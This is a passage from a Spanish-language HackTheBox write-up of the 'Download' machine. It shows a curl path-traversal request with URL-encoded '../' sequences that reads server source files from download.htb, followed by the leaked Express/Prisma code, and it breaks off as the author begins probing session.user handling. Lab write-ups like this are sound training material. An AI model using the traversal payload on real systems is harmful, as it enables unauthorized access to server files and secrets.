 ```js
});
app.listen(port, process.env.NODE_ENV === "production" ? "127.0.0.1" : "0.0.0.0", () => {
    console.log("Listening on ", port);
    if (process.env.NODE_ENV === "production") {
        setTimeout(async () => {
            await client.$executeRawUnsafe(`COPY (SELECT "User".username, sum("File".size) FROM "User" INNER JOIN "File" ON "File"."authorId" = "User"."id" GROUP BY "User".username) TO '/var/backups/fileusages.csv' WITH (FORMAT csv);`);
        }, 300000);
    }
});
```

Tenemos el secret de las sesiones y los archivos de ruta del servidor.

Buscando por vulnerabilidades en las rutas, encontramos algo curioso en el router de `/home`:

```js
❯ curl -s --path-as-is "http://download.htb/files/download/9c163f37-bfec-480e-9aea-143d3cd345db%2f%2e%2e%2f%2e%2e%2frouters%2fhome.js" | cat -l js
"use strict";
var __importDefault = (this && this.__importDefault) || function (mod) {
    return (mod && mod.__esModule) ? mod : { "default": mod };
};
Object.defineProperty(exports, "__esModule", { value: true });
const client_1 = require("@prisma/client");
const express_1 = __importDefault(require("express"));
const auth_1 = __importDefault(require("../middleware/auth"));
const client = new client_1.PrismaClient();
const router = express_1.default.Router();
router.get("/", auth_1.default, async (req, res) => {
    const files = await client.file.findMany({
        where: { author: req.session.user },
        select: {
            id: true,
            uploadedAt: true,
            size: true,
            name: true,
            private: true,
            authorId: true,
            author: {
                select: {
                    username: true,
                },
            },
        },
    });
    res.render("home.njk", { files });
});
exports.default = router;
```

Está tomando el valor de `session.user` para hacer una operación, la librería que utiliza es Prisma asi que busquemos más a fondo.
